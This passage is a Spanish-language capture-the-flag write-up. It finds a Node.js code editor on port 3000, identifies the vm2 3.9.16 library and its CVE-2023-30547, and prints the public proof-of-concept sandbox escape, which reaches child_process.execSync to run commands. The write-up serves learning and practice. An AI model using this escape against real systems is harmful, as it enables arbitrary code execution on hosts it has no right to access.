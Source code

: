 ![](../Imágenes/Selection_001-1.png)

![](../Imágenes/Selection_002-1.png)

#### HTTP 3000/TCP

El puerto 3000 nos aporta mucha curiosidad, por lo que nos dirigimos hacia él mediante el navegador. El sitio nos muestra un editor de código para testear código escrito en lenguaje Node.js:

![](../Imágenes/Pasted-image-20240404132135.png)

Si nos dirigimos a la sección «About us» podemos obtener más información sobre el sitio y entender mejor su funcionamiento. Asimismo podemos ver que el editor utiliza una librería de **JavaScript** llamada **vm2**.

![](../Imágenes/Pasted-image-20240404133457.png)

Si clicamos en el enlace, podemos comprobar que se está usando la versión **3.9.16**. Realizando una búsqueda por los motores de búsqueda podemos comprobar que existe una vulnerabilidad para esta versión registrada como **[CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)**:

![](../Imágenes/image%201.png)

Existe un **[proof of concept](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)** de esta vulnerabilidad que nos sugiere el uso del siguiente código, el cual nos permite la ejecución de código arbitrario en el sistema objetivo:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo pwned');
}
`

console.log(vm.run(code));
```
